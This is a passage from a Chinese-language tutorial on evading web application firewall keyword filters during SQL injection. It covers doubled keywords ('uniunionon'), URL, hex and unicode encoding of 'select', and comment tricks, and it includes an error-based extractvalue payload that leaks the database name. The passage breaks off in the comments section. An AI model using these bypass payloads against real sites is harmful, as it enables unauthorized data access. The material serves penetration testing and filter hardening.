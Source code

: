 ```sql
select 1 from users uniunionon all select 1;
```
当`uniunionon` 被安全防护设备进行关键字 `union` 替换后，只替换了中间的 `union`，替换后的字符组成了一个新的 `union`，使得语句可以正常执行。
## 3. 使用编码
### 3.1 URL编码
用于后端对传递的参数进行了解码操作的场景，例如将 `select` 关键字进行 URL 编码，来绕过安全防护设备的 `select` 关键字匹配。
```sql
 %73%65%6c%65%63%74
```
![Alt text](image-11.png)
### 3.2 16进制编码
mysql本身就支持，不需要服务端进行额外的解码操作：
```sql
  SELECT first_name, last_name FROM users WHERE user_id = '1' union all select  extractvalue(1,concat(0x7e,database()));
```
上面语句中的 `0x7e` 就是16进制编码。

### 3.3 unicode编码
用于后端对传递的参数进行的对应的解码操作，我们利用编码的方式，绕过安全防护设备关键字的检测，例如：
```sql
se%u006cect
```
## 4. 使用注释
### 4.1 普通注释
#### 4.1.1 `#`
![Alt text](image-12.png)
#### 4.1.2 `-- `